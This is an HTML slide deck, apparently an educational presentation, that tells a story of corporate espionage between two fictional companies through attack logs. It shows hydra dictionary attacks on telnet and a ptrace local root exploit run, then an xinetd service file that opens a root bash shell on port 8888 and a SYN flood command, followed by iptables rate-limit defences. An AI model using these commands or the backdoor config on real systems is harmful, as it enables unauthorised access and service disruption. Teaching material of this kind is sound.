

<!doctype html>
<html>
	<head>
		<meta charset="utf-8">
		<meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=no">

		<title>Network Security Slide</title>

		<link rel="stylesheet" href="css/reveal.css">
		<link rel="stylesheet" href="css/theme/serif.css">

		<!-- Theme used for syntax highlighting of code -->
		<link rel="stylesheet" href="lib/css/zenburn.css">

		<!-- Printing and PDF exports -->
		<script>
			var link = document.createElement( 'link' );
			link.rel = 'stylesheet';
			link.type = 'text/css';
			link.href = window.location.search.match( /print-pdf/gi ) ? 'css/print/pdf.css' : 'css/print/paper.css';
			document.getElementsByTagName( 'head' )[0].appendChild( link );
		</script>

		<style>
			.company {
				margin-top: 40px !important;
				margin-bottom: 20px !important;
				/* width: 350px; */
				border-radius: 8px;
				-webkit-border-radius: 8px;
				border: solid 1px #555 !important;
			}

			.company .amazan {
				background: #555;
			}

			.company .rakutan {
				background: #555;
			}

			.company h4 {
				padding: 10px;
				color: #fff;
				-webkit-border-top-right-radius: 6px;
				-webkit-border-top-left-radius: 6px;
				border-top-right-radius: 6px;
				border-top-left-radius: 6px;
			}

			.company p {
				margin: 0;
				padding: 10px;
			}

			img {
				border: 0 !important;
				box-shadow: none !important;
				background: none !important;
			}
		</style>
	</head>
	<body>
		<div class="reveal">
			<div class="slides">
				<section data-markdown data-separator="^\n---$" data-separator-vertical="^\n>>>$">
					<script type="text/template">
						<!--.slide: data-transition="zoom" -->
						# Network Security

						---
						## Introduction

						>>>
						<!-- .slide: style="text-align: left;" -->
						### Character
						- - -

						<div class="company">
							<h4 class="amazan">Amazan Company</h4>
							<p>Alice: works in technology department</p>
							<p>Bob: an administrator of web server</p>
						</div>

						<div class="company">
							<h4 class="rakutan">Rakutan Company</h4>
							<p><span class="">Richard:</span> Alice's friend</p>
							<p><span class="">Sherry:</span> an executive</p>
						</div>

						---
						## Chapter 1.
						### The beginning

						>>>
						### Meeting at Rakutan company
						- - -
						</img> <!-- .element: class="fragment" data-fragment-index="0" -->

						One day, at Rakutan company, a meeting was held to win the competition with Amazan company. <!-- .element: class="fragment" data-fragment-index="0" -->

						>>>
						### Result of the meeting
						- - -
						</img> <!-- .element: class="fragment" data-fragment-index="0" -->

						The Sherry is appointed as the person responsible for stealing the confidential information of Amazan company. <!-- .element: class="fragment" data-fragment-index="0" -->

						>>>
						</img>
						</img>
						</img>

						Sherry asked an employee Richard to do it.

						>>>
						# ATTACKER
						- - -
						</img>

						### Richard

						>>>
						</img>
						</img> <!-- .element: class="fragment" data-fragment-index="0" -->
						</img> <!-- .element: class="fragment" data-fragment-index="1" -->
						</img>

						### Firewall prevents this attack.(connection rate limit) <!-- .element: class="fragment" data-fragment-index="1" -->

						>>>
						### Richard's dictionary attack log
						- - -

						```
[BlackHat]
# ./hydra -l a -P ../words.japanese telnet://192.168.0.1
...
Hydra (http://www.thc.org/thc-hydra) starting at 2016-11-25 15:29:57
...
[DATA] max 16 tasks per 1 server, overall 16 tasks, 115599 login tries (l:1/p:115599), ~451 tries per task
[DATA] attacking service telnet on port 23
[ERROR] Not a TELNET protocol or service shutdown
[ERROR] Not a TELNET protocol or service shutdown
The session file ./hydra.restore was written. Type "hydra -R" to resume session.
						```

						---
						## Chapter 2.
						### Preparation for attack

						>>>
						### At Alice's house
						- - -
						</img>
						</img> <!-- .element: class="fragment" data-fragment-index="0" -->
						</img>
						</img>
						</img>

						Richard gets ID and password to login server. <!-- .element: class="fragment" data-fragment-index="0" -->  

						Richard knows how to connect the server. <!-- .element: class="fragment" data-fragment-index="1" -->

						>>>
						### At Richard's house
						- - -
						## LOGIN SUCCESS <!-- .element: class="fragment" data-fragment-index="1" -->

						</img>
						</img> <!-- .element: class="fragment" data-fragment-index="0" -->
						</img>
						</img> <!-- .element: class="fragment" data-fragment-index="2" -->

						### RICHARD GETS <!-- .element: class="fragment" data-fragment-index="3" -->
						### THE CONFIDENTIAL FILES <!-- .element: class="fragment" data-fragment-index="3" -->


						>>>
						### The contents of the file
						- - -
						- Network structure in Amazan company. <!-- .element: class="fragment" style="font-size: 24px" data-fragment-index="0" -->
						- The same login ID is used in both technology department's server and web server, but password is different. <!-- .element: class="fragment" style="font-size: 24px" data-fragment-index="1" -->

						</img> <!-- .element: class="fragment" data-fragment-index="0" -->

						---
						## Chapter 3.
						### Attack on web server

						>>>
						### Dictionary attack on the web server

						- - -
						</img>

						### GET PASSWORD <!-- .element: class="fragment" data-fragment-index="0" -->
						### TO LOGIN WEB SERVER <!-- .element: class="fragment" data-fragment-index="0" -->

						>>>
						### Dictionary attack log
						- - -
						```
# ./hydra -l a -P ../words.japanese telnet://192.168.0.1
...
Hydra (http://www.thc.org/thc-hydra) starting at 2016-11-28 15:25:57
...
[DATA] max 16 tasks per 1 server, overall 16 tasks, 115599 login tries (l:1/p:115599), ~451 tries per task
[DATA] attacking service telnet on port 23
[STATUS] 149.00 tries/min, 149 tries in 00:01h, 115450 todo in 12:55h, 16 active
[STATUS] 104.26 tries/min, 318 tries in 00:03h, 115281 todo in 18:26h, 16 active
[23][telnet] host: 192.168.0.1   login: a   password: aichi
						```

						>>>
						### Ptrace attack on the web server
						- - -
						</img>

						GET ROOT AUTHORIZATION  
						OF WEB SERVER BY "PTRACE" <!-- .element: class="fragment" data-fragment-index="0" -->

						>>>
						## Ptrace log
						- - -
						```
# whoami
a

[a@redhat72 a]$ cd ..
[a@redhat72 home]$ cd a
[a@redhat72 a]$ ls
guess-who-0.44-nw3.tar.gz  ptrace-exploit.c
[a@redhat72 a]$ gcc ptrace-exploit.c
[a@redhat72 a]$ ./a.out
[+] Attached to 855
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x40011aed
[+] Now wait for suid shell...
sh-2.05# whoami
root
						```

						>>>
						### Install a backdoor in web server
						- - -
						</img>

						>>>
						### Install a backdoor log 1.
						- - -
						```
sh-2.05# cd /etc
sh-2.05# ls
CORBA               gnome                 ld.so.cache     pam.d         securetty
DIR_COLORS          gnome-vfs-mime-magic  ld.so.conf      paper.config  securetty.org
X11                 gpm-root.conf         locale          passwd        security
adjtime             group                 localtime       passwd-       sendmail.cf
aliases             group-                localtime.org   ppp           services
aliases.db          gtk                   login.defs      printcap      shadow
bashrc              host.conf             logrotate.conf  profile       shadow-
conf.linuxconf      hosts                 logrotate.d     profile.d     shadow.org
						```

						>>>
						### Install a backdoor log 2.
						```
service backdoor
{
socket_type = stream
wait = no
user = root
server = /bin/bash
server_args = -i
protocol = tcp
port = 8888
}

"backdoor" [New] 10L, 127C written

sh-2.05# ls /etc/xinetd.d
backdoor     daytime      echo-udp  ipop2          pop3s   time
chargen      daytime-udp  imap      ipop3          rsync   time-udp
chargen-udp  echo         imaps     linuxconf-web  telnet  wu-ftpd
						```

						---
						## Chapter 4.
						### Next attack

						>>>
						
						 <!-- .element: class="fragment" data-fragment-index="0" -->
						

						Amazan is going to start a new web service. <!-- .element: class="fragment" data-fragment-index="1" -->

						Attack web server when the new web server starts. <!-- .element: class="fragment" data-fragment-index="2" -->


						>>>
						### Pingflood attack on web server
						- - -
						</img>

						### SERVER DOWN <!-- .element: class="fragment" data-fragment-index="0" -->

						>>>
						### Pingflood attack log
						- - -
						```
# /bin/bash ./synflood 192.168.0.1 23
attack to 192.168.0.1 port 23\n
Next\n
Next\n
Next\n
Next\n
						```

						---
						## Chapter 5.
						### After server down

						>>>
						
						
						
						
						 <!-- .element: class="fragment" data-fragment-index="0" -->
						
						

						Users call the Amazan because of the web server down. <!-- .element: class="fragment" data-fragment-index="0" -->

						>>>
						
						 <!-- .element: class="fragment" data-fragment-index="0" -->
						

						Bob starts to investigate the cause of the web server down <!-- .element: class="fragment" data-fragment-index="0" -->

						>>>
						### Result of investigation
						- - -

						Bob noticed there was a pingflood attack on the web server. <!-- .element: class="fragment" data-fragment-index="0" -->

						→Firewall is installed in the web server. <!-- .element: class="fragment" data-fragment-index="1" -->

						>>>
						### Firewall is installed in the web server
						- - -
						</img>

						This firewall is for connection rate limit.

						>>>
						### Install firewall log 1.
						- - -
						```
# iptables -A FLOOD -m hashlimit --hashlimit-name hashcheck_t 
	--hashlimit 1/m --hashlimit-burst 30 --hashlimit-mode srcip
	--hashlimit-htable-expire 120000 -j ACCEPT
# iptables -A FORWARD -m state --state ESTABLISHED,RELATED -j ACCEPT
# iptables -A FORWARD -j ACCEPT
# iptables -A FORWARD -j LOG --log-level INFO
						```

						>>>
						### Install firewall log 2.
						- - -
						```
Chain INPUT (policy DROP)
target     prot opt source               destination

Chain FORWARD (policy DROP)
target     prot opt source               destination
ACCEPT     0    --  anywhere             anywhere            
	state RELATED,ESTABLISHED
FLOOD      0    --  anywhere             anywhere

Chain OUTPUT (policy DROP)
target     prot opt source               destination

Chain FLOOD (1 references)
target     prot opt source               destination
ACCEPT     0    --  anywhere             anywhere            
	limit: avg 1/min burst 30 mode srcip htable-expire 120000
						```

						>>>
						## Is all the problem solved?

						>>>

						No, there is backdoor.  

						---
						## Chapter 6.
						### Backdoor still remains

						>>>
						</img>

						### Program for a new web service?

						>>>

						 <!-- .element: class="fragment" data-fragment-index="0" -->

						
						 <!-- .element: class="fragment" data-fragment-index="0" -->
						

						>>>
						#### Meeting about the program Rechard stole from Amazan
						- - -
						</img>

						### Rakutan decides using this program. <!-- .element: class="fragment" data-fragment-index="0" -->

						>>>
						## After 1 week.

						>>>
						<!--.slide: data-background-image="./img/newspaper.jpg"-->
						## NEWS <!--.element: style="background-color: rgba(255, 255, 255, 0.7);" -->

						### Rakutan company announced </br> a new web service!! <!--.element: style="background-color: rgba(255, 255, 255, 0.7);" -->

						---
						## Chapter 7.
						### Counter attack of Amazan

						>>>
						#### Rakutan started a new web service, but ...
						- - -
						
						
						
						 <!-- .element: class="fragment" data-fragment-index="0" -->
						

						Many bugs are reported. <!-- .element: class="fragment" data-fragment-index="0" -->

						>>>
						### A month ago

						>>>
						Bob found the backdoor </br> <!-- .element: class="fragment" data-fragment-index="0" -->
						when he made a ptriodic inspection the web server. <!-- .element: class="fragment" data-fragment-index="0" -->

						
						
						 <!-- .element: class="fragment" data-fragment-index="0" -->
						

						>>>

						</img>

						### Bob prepared a fake program.

						>>>
						### Bob's investigation log
						- - -
						```
sh-2.05# ls /etc/xinetd.d
backdoor     daytime      echo-udp  ipop2          pop3s   time
chargen      daytime-udp  imap      ipop3          rsync   time-udp
chargen-udp  echo         imaps     linuxconf-web  telnet  wu-ftpd
						```

						>>>
						Rakutan losts its credit  
						because of many bugs of the new web service.

						On the other hand ... <!-- .element: class="fragment" data-fragment-index="0" -->

						>>>
						Amazan started  
						a new web service based on an original program.

						### Amazan achieve great success! <!-- .element: class="fragment" data-fragment-index="0" style="margin-top: 40px;" -->

						>>>
						### Final Result
						- - -

						 <!-- .element: class="fragment" data-fragment-index="0" style="margin-top: 80px;" -->

						Rakutan lost the competition with Amazan. <!-- .element: class="fragment" data-fragment-index="0" style="margin-top: 80px;" -->

						---
						## The END

						### Thank you for listening.

					</script>
				</section>
			</div>
		</div>

		<script src="lib/js/head.min.js"></script>
		<script src="js/reveal.js"></script>

		<script>
			// More info https://github.com/hakimel/reveal.js#configuration
			Reveal.initialize({
				history: true,

				// More info https://github.com/hakimel/reveal.js#dependencies
				dependencies: [
					{ src: 'plugin/markdown/marked.js' },
					{ src: 'plugin/markdown/markdown.js' },
					{ src: 'plugin/notes/notes.js', async: true },
					{ src: 'plugin/highlight/highlight.js', async: true, callback: function() { hljs.initHighlightingOnLoad(); } }
				]
			});
		</script>
	</body>
</html>
